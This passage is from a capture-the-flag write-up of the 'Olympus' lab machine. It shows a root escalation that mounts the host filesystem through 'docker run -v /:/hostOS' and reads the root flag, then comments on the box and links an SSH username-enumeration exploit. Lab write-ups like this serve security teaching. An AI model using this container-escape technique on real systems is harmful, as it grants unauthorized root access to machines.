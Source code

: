 `docker run` looks like this: `$ docker run [OPTIONS]
IMAGE[:TAG|@DIGEST][COMMAND] [ARG...]`
[ref](https://docs.docker.com/engine/reference/run/#general-form)

So we’ll run `docker run -v /:/hostOS -i -t rodhes bash`:

  * `-v /:/hostOS` \- mount the host’s `/` as `/hostOS` inside the image
  * `-i` \- interactive
  * `-t` \- create a tty
  * `rodhes` \- the name of the image to run, got from `docker ps above`
    * I picked this one because it doesn’t have shell access by others, so it’s less likely to accidentally give the root flag to someone else
  * `bash` \- command to run

And this does give root access:

    
    
    prometheus@olympus:/dev/shm$ docker run -v /:/hostOS -i -t  rodhes bash
    cat: /etc/hostip: No such file or directory
    
    root@6e53f07f626a:/# id
    uid=0(root) gid=0(root) groups=0(root)
    
    root@6e53f07f626a:/# cd /hostOS/
    
    root@6e53f07f626a:/hostOS# ls
    bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
    

### root.txt

And with full read access to the file system we can grab the flag:

    
    
    root@6e53f07f626a:/hostOS/root# wc -c root.txt
    33 root.txt
    
    root@6e53f07f626a:/hostOS/root# cat root.txt
    aba48699...
    

## Commentary

This was a really cool box, and in having you jump from container to
container, providing different interesting challenges like zone transfers and
802.11 cracking that aren’t typically seen in HTB. And it does it in a way
that’s interesting but on the not insanely difficult side of the HTB
difficulty spectrum.

The one part of the box that I think put most people off about Olymus, and
kept it from being a really great box, was the pivot from getting SSID from
the capture to ssh access as icarus. Guessing is often a part of hacking, but,
in my opinion, using the SSID as the SSH password was a bit of a stretch. Even
having a shared WiFi / SSH password would have been better. And some people
were frustrated with getting to the user name of icarus. IppSec said he’s
going to use [CVE-2018-15473](https://blog.nviso.be/2018/08/21/openssh-user-
enumeration-vulnerability-a-close-look/) and a list of Greek mythological
figures to find the username, which is pretty cool (as always, you should
watch [his videos](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA)).
I won’t go into detail here, but, using [this
POC](https://github.com/Rhynorater/CVE-2018-15473-Exploit/blob/master/sshUsernameEnumExploit.py),
it does work:
